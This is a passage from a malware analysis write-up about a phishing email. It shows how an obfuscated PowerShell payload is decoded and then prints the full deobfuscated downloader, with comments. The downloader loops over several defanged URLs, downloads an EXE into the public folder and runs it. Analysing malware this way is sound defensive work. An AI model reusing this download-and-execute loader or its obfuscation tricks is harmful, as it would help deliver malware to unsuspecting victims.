 After decryption, the output is passed to the expression: `( ([string]$VERbosepREfeREnCe)[1,3]+'X' –join'')`

To see what this expression means, just let PowerShell interpret it:

![](images/Analysis%20of%20a%20Phishing%20Email/image008.png)<br><br>

Now instead of passing it to `Invoke-Expression` for execution, remove the `IEX` and print the decrypted contents to the screen:

![](images/Analysis%20of%20a%20Phishing%20Email/image009.png)<br><br>

Now we can go through the full, deobfuscated PowerShell command and identify what actions are being performed:

```powershell

# Create a random file name
$nsadasd = new-object random
$NSB = $nsadasd.next(1000, 282133)

# Create a web client
$YYU = new-object System.Net.WebClient

# Create an array of URLs
$ADCX = 'http://www.vendendovendendo[.]com/I41rpk/?http://re-oz[.]ru/Rhsri/?http://www.utilitybillingsoftwares[.]com/Yr13ok/?http://t-p-e[.]net/M8uZOL/?http://cathroughmylens[.]com/XztRX8o/'.split('?')

# Create a full file path for EXE
$SDC = $env:public + '\' + $NSB + ('.ex'+'e')

# Try to download EXE from each URL in array and execute
foreach ($asfc in $ADCX) {
  try {
    $YYU.DownloadFile($asfc.ToString(), $SDC)
    Invoke-Item $SDC
    Break
  }
  catch {}
}
```

